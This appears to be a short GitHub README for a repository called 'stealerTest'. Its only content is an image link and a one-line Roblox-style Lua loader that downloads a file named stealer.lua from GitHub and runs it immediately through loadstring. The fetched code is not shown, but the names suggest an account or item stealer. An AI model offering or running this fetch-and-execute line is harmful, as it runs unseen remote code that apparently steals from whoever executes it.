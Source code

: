 # stealerTest

script: loadstring(game:HttpGet("https://github.com/zedikik/stealerTest/blob/main/stealer.lua", true))()
